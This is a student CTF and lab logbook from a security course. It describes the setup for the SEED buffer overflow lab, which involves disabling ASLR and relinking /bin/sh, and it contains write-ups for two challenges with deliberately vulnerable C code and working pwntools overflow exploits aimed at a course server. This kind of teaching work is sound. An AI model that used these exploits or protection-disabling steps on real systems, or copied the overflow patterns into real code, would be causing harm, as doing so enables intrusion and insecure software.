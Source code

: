 # LOGBOOK 5

## SEED Labs - Buffer Overflow Attack Lab (Set-UID Version)

### Preparation

To prepare our systems for this lab, we followed the Environment Setup section of the guide:

1. Turn off address space randomization for the stack and the heap
   - Execute `sudo sysctl -w kernel.randomize_va_space=0`
   - This command instructs the kernel to stop randomizing the starting addresses of the stack and the heap. This is necessary for this lab because it makes the address at which our shellcode will be located more predictable.

2. Link `/bin/sh` to `/bin/zsh`
   - Execute `sudo ln -sf /bin/zsh /bin/sh`
   - This command is executed because, normally, `/bin/sh` points to `/bin/dash`. Both `dash` and `bash` contain special protections against being executed from a program with the Set-UID bit set, which is the program we will be trying to attack. `zsh`, on the other hand, doesn't have that kind of protections.

### Tasks

The guides for each of the tasks are located at:

- [Task #1](guides/logbook-5/task1.md)
- [Task #2](guides/logbook-5/task2.md)
- [Task #3](guides/logbook-5/task3.md)

## CTF - Desafio 1

### Step 1 - Checksec

By running checksec on the program, we can discover many things:

```bash
❯ checksec program
  Arch:     i386-32-little
  RELRO:    No RELRO
  Stack:    No canary found
  NX:       NX disabled
  PIE:      No PIE (0x8048000)
  RWX:      Has RWX segments    
```

- The executable's architecture is 32 bits and little endian

- There are segments in the memory with Read, Write and Execute Permissions

- Address Space Layout Randomization (ASLR) is disabled

- Position Independent Executable (PIE) is disabled

- NX (No execute) is disabled

- There's no canary

### Analysis

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%28s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```
By analysing the program code, we can easily see that even tho the buffer only has 20 chars space, we are reading 28 with `scanf("%28s", &buffer)` and that overwrites the buffer by 8 bytes. 

Since the user controls the input, by writing `flag.txt` after 20 chars, you can easily overwrite the variable meme_file and open the flag

### Exploitation

```python
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

payload = b"a" * 20 + b"flag.txt"

r.recvuntil(b":")
r.sendline(payload)
r.interactive()
```


## CTF - Desafio 2

### Step 1 - Checksec

By running checksec on the program, we can discover many things:

```bash
❯ checksec program
  Arch:     i386-32-little
  RELRO:    No RELRO
  Stack:    No canary found
  NX:       NX disabled
  PIE:      No PIE (0x8048000)
  RWX:      Has RWX segments    
```

- The executable's architecture is 32 bits and little endian

- There are segments in the memory with Read, Write and Execute Permissions

- Address Space Layout Randomization (ASLR) is disabled

- Position Independent Executable (PIE) is disabled

- NX (No execute) is disabled

- There's no stack canary

### Analysis

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[20];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%32s", &buffer);
    if(*(int*)val == 0xfefc2223) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 20, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

This challenge is similar to the first one, with the little twist added that now we can't just overflow the buffer to read the flag.

Like in the first challenge our buffer supports 20 bytes, however, we are reading 32 from user input, which gives us 12 bytes of freedom for our payload.

We need that `val` has the value `0xfefc2223` to proceed with the challenge and, since this one can be found in a memory region in between the buffer and the filename, we just need to overwrite the bytes 20 to 24.

From there on, the challenge is exactly like the previous one.

### Exploitation

```python
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")

payload = b"aaaaaaaaaaaaaaaaaaaa" + p32(0xfefc2223) + b"flag.txt"


r.sendline(payload)
r.interactive()
```